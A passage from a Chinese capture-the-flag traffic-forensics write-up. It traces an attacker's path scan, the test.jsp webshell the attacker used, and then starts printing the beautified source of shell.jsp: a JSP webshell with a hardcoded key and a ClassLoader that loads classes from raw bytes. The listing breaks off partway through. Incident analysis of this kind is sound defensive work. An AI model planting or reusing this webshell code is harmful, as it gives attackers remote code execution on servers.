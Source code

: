 那么答案就是**80,888,8888**

### hard web\_2

> 问题内容：服务器中根目录下的flag值是多少？

因为看到了80端口开放，我们看看web服务发生了什么[![](assets/1702520939-7bc6866d57b2774d7fa61b5211920852.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213155406-ca3e6a12-998c-1.png)  
可以看到黑客对web服务进行路径扫描，服务器返回了大量的404状态，因此我们通过过滤器语法`http.request or http.response.code == 200`查看黑客对服务器的请求以及（如果存在）web页面的响应  
[![](assets/1702520939-4e87a89dc24767eb8f5998d7292d5d35.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213155438-ddbe33e2-998c-1.png)  
可以看到服务器存在一个`test.jsp`的webshell，黑客执行了一些命令，在最后查看了`shell.jsp`的内容  
[![](assets/1702520939-cbc83b1ae163efd874f74635d08d1f21.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213155520-f63d9296-998c-1.png)

我们查看一下shell.jsp的内容，稍微代码美化一下可以得到如下

```plain
<%! String xc = "748007e861908c03";

    class X extends ClassLoader {
        public X(ClassLoader z) {
            super(z);
        }

        public Class Q(byte[] cb) {
            return super.defineClass(cb, 0, cb.length);
        }
    }

    public byte[] x(byte[] s, boolean m) {
```